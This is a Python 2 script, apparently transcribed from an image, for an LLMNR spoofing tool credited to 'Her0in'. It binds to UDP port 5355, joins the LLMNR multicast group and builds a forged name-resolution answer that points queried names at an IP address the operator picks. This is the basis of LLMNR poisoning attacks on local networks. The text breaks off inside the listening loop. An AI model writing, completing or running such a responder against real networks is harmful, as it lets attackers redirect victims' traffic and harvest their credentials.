     
    
    #!python
    #/usr/bin/env python
    
    __doc__ = """
    
        LLMNR Answer ,
                        by Her0in
    
    """
    
    import socket, struct
    
    class LLMNR_Answer:
        def __init__(self, addr):
    
            self.IPADDR  = addr
            self.las = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
            self.init_socket()
            self.populate()
        def populate(self):
    
            self.AnswerData = (
                "TID"               # Tid
                "\x80\x00"          # Flags  Query(0x0000)? or Response(0x8000) ?
                "\x00\x01"          # Question
                "\x00\x01"          # Answer RRS
                "\x00\x00"          # Authority RRS
                "\x00\x00"          # Additional RRS
                "LENGTH"            # Question Name Length
                "NAME"              # Question Name
                "\x00"              # Question Name Null
                "\x00\x01"          # Query Type ,IPv4(0x0001)? or IPv6(0x001c)?
                "\x00\x01"          # Class
                "LENGTH"            # Answer Name Length
                "NAME"              # Answer Name
                "\x00"              # Answer Name Null
                "\x00\x01"          # Answer Type ,IPv4(0x0001)? or IPv6(0x001c)?
                "\x00\x01"          # Class
                "\x00\x00\x00\x1e"  # TTL Default:30s
                "\x00\x04"          # IP Length
                "IPADDR")           # IP Address
    
        def init_socket(self):
            self.HOST = "0.0.0.0"
            self.PORT = 5355
            self.MulADDR  = "224.0.0.252"
            self.las.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
            self.las.setsockopt(socket.IPPROTO_IP, socket.IP_MULTICAST_TTL, 255)
            self.las.setsockopt(socket.IPPROTO_IP, socket.IP_ADD_MEMBERSHIP,
                           socket.inet_aton(self.MulADDR) + socket.inet_aton(self.HOST))
    
        def Answser(self):
            self.las.bind((self.HOST, self.PORT))
            print "Listening..."
            while True:
                data, addr = self.las.recvfrom(1024)
    